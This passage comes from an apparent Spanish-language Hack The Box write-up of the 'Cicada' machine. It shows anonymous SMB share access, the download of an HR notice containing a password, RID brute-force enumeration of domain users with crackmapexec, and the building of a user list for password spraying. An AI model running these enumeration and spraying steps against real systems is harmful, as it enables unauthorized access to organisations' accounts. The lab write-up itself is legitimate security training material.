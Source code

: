 ```ruby
Unable to connect with SMB1 -- no workgroup available
```

Vemos dos carpetas `DEV` y `HR` , intentamos acceder a ellas. Accediendo a `HR`.

```ruby
❯ smbclient //10.10.11.35/HR -N
Try "help" to get a list of possible commands.
smb: \> 
```

Listamos archivos y lo descargamos.

```ruby
❯ smbclient //10.10.11.35/HR -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

		4168447 blocks of size 4096. 404251 blocks available
smb: \> mget *
Get file Notice from HR.txt? y
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (2.3 KiloBytes/sec) (average 2.3 KiloBytes/sec)
smb: \> 
```

## Intrusión


![Desktop View](../assets/img/posts/htb/cicada/img1.png){: width="972" height="589" }
_Full screen width and center alignment_


Vemos que tiene una contraseña, podemos enumerar usuarios usando nxc.
```ruby
❯ crackmapexec smb 10.10.11.35   -u 'guest' -p '' --rid-brute | grep SidTypeUser
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```
Nos creamos un diccionario con los usarios

```ruby
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
``` 
Usando esa lista podemos probar fuerza bruta con la contraseña que obtuvimos.
